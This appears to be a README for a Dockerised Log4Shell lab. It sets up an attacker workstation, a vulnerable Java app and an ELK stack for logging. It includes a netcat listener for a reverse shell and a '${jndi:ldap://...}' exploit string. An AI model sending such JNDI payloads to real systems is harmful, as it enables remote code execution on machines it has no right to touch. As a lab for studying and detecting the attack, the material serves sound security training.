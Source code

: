# 3204

## Set up Attack
```
cd log4jshell-lab/attacker
docker-compose build 
docker-compose up -d 
```

## Start the java app
```
cd log4jshell-lab/victim/vuln-apps/others/basicJar
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

## In Workstation 1
### Open Workstation Terminal
Open 2 terminals, one for nc to listen and another ro execute exploit
```
sudo docker exec -it attacker-workstation1 bash
```
### Start net cat listener 
```
nc -lvnp 443
```

### Run exploit 
Replace `127.0.0.1` with IP address of LDAP
```
cd /basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'
```



# ELK Set up
Clone repository </br>
https://github.com/deviantony/docker-elk


# run file
#sudo docker-compose build<br/>
#sudo docker-compose up -d 


# check IP
#sudo docker-compose ps 
	sudo docker-compose <id container> | grep IPAddress
  
# stop docker 
	sudo docker-compose kill && docker-compose rm -f 

# Network connectivity
	docker network create --driver=bridge --subnet=192.168.0.0/24 3204_network

	docker network connect --ip 192.168.0.5 3204_network web-server
	docker network connect --ip 192.168.0.6 3204_network ldap-server

	docker network connect --ip 192.168.0.2 3204_network docker-elk-main-kibana-1
	docker network connect --ip 192.168.0.3 3204_network docker-elk-main-logstash-1
	docker network connect --ip 192.168.0.4 3204_network docker-elk-main-elasticsearch-1 

# Shell Access
	docker exec -ti docker-elk-main-kibana-1 /bin/bash
	docker exec -ti docker-elk-main-logstash-1 /bin/bash
	docker exec -ti docker-elk-main-elasticsearch-1 /bin/bash
	docker exec -ti web-server /bin/bash
	docker exec -ti ldap-server /bin/bash
	
# Clean Containers
	docker system prune -a
	y

	docker network prune
	y

	docker container prune
	y

# Ports
5044: Logstash Beats input</br>
50000: Logstash TCP input</br>
9600: Logstash monitoring API</br>
9200: Elasticsearch HTTP</br>
9300: Elasticsearch TCP transport</br>
5601: Kibana</br>

# filebeat.yml Config
Copy from repo
